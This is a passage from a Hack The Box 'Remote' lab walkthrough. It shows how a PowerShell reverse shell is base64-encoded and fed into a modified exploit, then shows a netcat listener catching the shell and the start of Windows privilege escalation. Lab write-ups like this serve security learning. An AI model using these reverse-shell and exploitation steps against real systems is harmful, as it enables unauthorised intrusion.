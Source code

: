 `cat psreverse.txt | iconv -f UTF8 -t UTF16LE | base64 -w0`

* `psreverse.txt` stores a copy of our reverse shell
* `iconv` converts the format from UTF8 to UTF16LE, as [Windows uses UTF16 (Little Endian) by default](https://en.wikipedia.org/wiki/UTF-16)

### Modifying The Exploit

Changes we need to make:

* `string cmd = "-encoded <insertbase64stringofreverseshell>";`
* `proc.StartInfo.Filename = "powershell.exe";`

These changes will get [powershell to execute a base64 encoded command](https://ridicurious.com/2018/05/28/encoded-commands/).

### Exploiting

After executing the exploit with the modified payload, we get a reverse shell from Remote.

```
root@kali:~/htb/remote# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.180] 51745
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
```
The user.txt is in `C:\Users\Public`.

## Privilege Escalation

[This is a great guide for window privilege escalation](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html).

My first step is to run systeminfo and feed its output to windows exploit suggestor. But it did not return anything exploitable.

### Weak Permissions

Before we check for useful permissions, it helps to know which groups we belong to.

```
PS C:\windows\temp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```